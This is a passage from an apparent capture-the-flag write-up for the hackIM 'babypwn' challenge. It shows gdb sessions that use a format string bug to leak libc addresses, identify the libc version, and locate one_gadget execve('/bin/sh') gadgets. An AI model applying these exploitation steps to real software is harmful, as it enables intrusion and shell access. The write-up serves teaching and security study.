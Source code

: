 ```
gdb-peda$ r
Starting program: /Hackery/hackIM/bbpwn/babypwn 
Create a tressure box?
y
name: %lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx
How many coins do you have?
1
57005
Tressure Box: 1.7ffff7dd18d0.10.0.0.101000000000000.602260.dead.7ffff7dd7660.7fffffffdfa8 created!
```

So we can see that we can print our input `57005` (which in hex is `0xdead`) at an offset of `8`. So we can store the got address for `puts` as the first coin, and then have the format string be `%8$s` and we will print the libc address for puts (since `%s` signifies a char array pointer):

```
gdb-peda$ r
Starting program: /Hackery/hackIM/bbpwn/babypwn 
Create a tressure box?
y
name: %8$s
How many coins do you have?
1
6295472
Tressure Box: �I��� created!
```

Here we can see that we were able to get an infoleak (and when we use a script to read the infoleak, and check it with gdb, we see that it is the address of `puts`). So with this we can get a libc infoleak. For the next part we will be using a oneshot gadget, however for that we will need to find the libc version. Luckily we can do that against the server, by leaking the address of both puts and malloc in a single run. To do that you can input the got address for `malloc` after the address of puts (make sure you write `0x0` in between the two got addresses, since you are writing 4 bytes of data to eight byte pointers). After that just add a `%9$s` to the format string, and in addition to the `puts` infoleak, we will get the `malloc` infoleak. After that you can take those addresses you get to the website `https://libc.blukat.me/`, plug in the values for `_IO_puts` and `__libc_malloc`, it will tell us that the libc file is `libc6_2.23-0ubuntu10_amd64` (also since when I worked on this the challenge was no longer being hosted, this is coming directly from the writeup this is based off of). From there we can download the libc file and look for the oneshot gadget.

### OneGadget

OneGagdet is a project (you can find it here: https://github.com/david942j/one_gadget) that if we give it a libc file, it will return to us a ROP gadget that will give us a call to `execve('/bin/sh', NULL, NULL)` given certain conditions. We can check what gadgets it finds for us:

```
$	one_gadget libc6_2.23-0ubuntu10_amd64.so 
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

